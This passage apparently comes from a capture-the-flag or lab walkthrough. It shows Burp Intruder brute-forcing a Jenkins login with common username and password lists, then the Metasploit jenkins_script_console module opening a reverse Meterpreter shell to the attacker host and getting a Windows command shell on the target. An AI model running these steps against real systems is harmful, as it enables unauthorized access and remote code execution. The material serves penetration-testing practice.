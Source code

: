 ### Intruder
{: .no_toc}

- Clear all payload markers by pressing the "Clear §" button on the right
- Select the Attack type: Cluster Bomb to pair all usernames with all passwords
- Double click on the entered username text and click the "Add §" button and repeat for the password text
- Select the Payloads sub tab 
- Enter a few usernames one by one in the txt field next to the Add button and then press it .e.g jenkins, admin, administrator, Jenkins and passwords 
- Click on the dropdown list next to Payload set and select 2 and then repeat for passwords e.g. password, jenkins, Password, password1
- Then click on the orange "Start Attack" button in the top right corner
- Observe any inconsistencies in the table e.g. the response length
- Click on the Response tab below the table to view the responses
- Notice a discrepancy in response length when trying jenkins:jenkins and
- The session id returned in the response

> We got credentials

## Exploit
  
### Metasploit

- Search for jenkins
- `use multi/http/jenkins_script_console`
- set rhosts, rport, lhosts, username & password
- `exploit`

```console
[*] Started reverse TCP handler on 10.0.2.9:4444 
[*] Checking access to the script console
[*] Logging in...
[*] Using CSRF token: 'cf6363d73fbaa2ddbb111e122555c2b88754ca869ff363611a695aa9244c3e3e' (Jenkins-Crumb style v2)
[*] 10.0.2.80:8080 - Sending command stager...
[*] Command Stager progress -   2.06% done (2048/99626 bytes)
...
[*] Command Stager progress - 100.00% done (99626/99626 bytes)
[*] Sending stage (175686 bytes) to 10.0.2.80
[*] Meterpreter session 2 opened (10.0.2.9:4444 -> 10.0.2.80:60581) at 2023-01-25 12:31:18 +0100

meterpreter > 
```

> We got a shell!!!

- get default target shell `shell`

```console
meterpreter > shell
Process 2480 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19043.928]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\Jenkins>whoami
whoami
butler\butler
```
